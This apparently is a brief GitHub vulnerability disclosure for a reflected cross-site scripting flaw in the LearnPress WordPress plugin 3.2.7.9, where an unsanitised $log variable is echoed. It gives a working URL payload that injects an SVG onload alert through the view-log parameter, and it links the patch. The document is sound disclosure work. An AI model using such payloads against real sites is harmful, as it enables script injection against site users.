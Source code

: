 # wpp_LearnPress

the Wordpress Plugin learnpress has a reflected XSS.


Details:
* Plugin: https://wordpress.org/plugins/learnpress/
* Vulnerable Version: 3.2.7.9
* Payload: http://127.0.0.1/wordpress/wp-admin/edit.php?post_type=lp_course&view-log=aaa%22%3Csvg/onload=%22alert(1)%22/%3E
![unnamed](https://user-images.githubusercontent.com/32059182/98671966-028d2780-2390-11eb-90b7-06d986a650a4.png)
And the issue in the file: ./learnpress/learnpress.php: 
![image](https://user-images.githubusercontent.com/32059182/98671944-f99c5600-238f-11eb-97d8-5b80657ec34b.png)
the variable $log output without sanitize.
Thank you~

* patch: https://plugins.trac.wordpress.org/changeset?old_path=%2Flearnpress&old=2413726&new_path=%2Flearnpress&new=2413726&sfp_email=&sfph_mail=
